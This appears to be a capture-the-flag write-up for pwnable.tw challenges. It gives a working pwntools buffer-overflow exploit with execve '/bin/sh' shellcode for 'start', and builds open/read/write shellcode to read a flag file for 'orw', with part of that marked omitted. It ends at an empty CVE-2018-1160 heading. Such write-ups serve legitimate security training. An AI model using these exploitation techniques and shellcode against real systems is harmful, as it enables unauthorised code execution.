# pwn.tw

## 01 start
checksec, RWX segment existed. maybe shellcode can be used.

a ASM program, calling some sys\_call, like `sys\_write`/'sys\_read`.
and reading process is a BOF vulnerability, length of buffer is enough for a simple ROP.

hijack the second argu of `sys\_write` to print out the stack info, then ret2shellcode.

```py
#!/bin/python3

from pwn import *

# io = process("./start")
# gdb.attach(io, 'b*0x08048087\nc')
io = remote("chall.pwnable.tw", 10000)

payload = b''
payload += b'A' *20
payload += p32(0x08048087)

io.sendafter(b'CTF:', payload)

stack_addr = u32(io.recv(4))
buf_addr = stack_addr - 4

shellcode = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += b"\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += b"\x0b\xcd\x80"

payload2 = b''
payload2 += b'A'*20
payload2 += p32(buf_addr + 20 +4 )
payload2 += shellcode

io.sendline(payload2)

io.interactive()
```

## 02 orw

a shellcode challenage, but syscalls we can use is limited to open/read/write.

we can not launch a shell directly, but these three calls are enough to read a flag with known path (which is provided by the hint).

we will open the flag and read it to buffer, and write it to stdout.

man syscalls and `/usr/include/x86\_64-linux-gnu/asm/unistd\_32.h`:
```
int open(const char *pathname, int flags);				#define __NR_read 3
ssize_t read(int fd, void *buf, size_t count);			#define __NR_open 5
ssize_t write(int fd, const void *buf, size_t count);	#define __NR_write 4

path is `/home/orw/flag`, 14 bytes.
```
- pwntools
	- pwnlib.shellcraft
		```py
		shellcraft.i386.pushstr('/home/orw/flag')
		shellcraft.i386.linux.syscall('SYS_open', 'esp')
		shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
		shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)
		```
		that is:	
		```
		push '/home/orw/flag\x00'
		call open('esp')
		call read('eax', 'esp', 0x50)
			// eax is previous call's ret value, which is opened fd.
		call write(1, 'esp', 0x50)
		```
- asm
	- argu:
		- eax: calling num
		- ebx/ecx/edx/esi/edi: argu1/2/3/4/5
	- crafting:
		- push '/home/orw/flag\x00'
		```
esp->	'///h'
		'ome/'
		'orw/'
		'flag'
		'\x00'
		```
		crafting the asm code:
		```py
		shellcode = ''
		shellcode += 'xor eax, eax\n push eax\n'
		
		temp = hex(u32(b'flag'))
		shellcode += 'push '+ temp + '\n'

		temp = hex(u32(b'orw/'))
		shellcode += 'push '+ temp + '\n'
		
		temp = hex(u32(b'ome/'))
		shellcode += 'push '+ temp + '\n'
		
		temp = hex(u32(b'///h'))
		shellcode += 'push '+ temp + '\n'
		```
		- call open('esp')
			eax: 5
			ebx: buf(esp)
			call
		```py
		shellcode += 'push 0x5\n pop eax\n'
		shellcode += 'mov ebx, esp\n'
		shellcode += 'int 0x80\n'
		```
		- call read('eax', 'esp', 0x50)
			eax: 3
			ebx: eax(fd)
			ecx: esp(buf)
			edx: 0x50(len)
		```py
		shellcode += 'mov ebx, eax\n'
		shellcode += 'push 0x3\n pop eax\n'
		shellcode += 'mov ecx, esp\n'
		shellcode += 'push 0x50\n pop edx'
		shellcode += 'int 0x80\n'
		```

		... omitted...

## 03 CVE-2018-1160

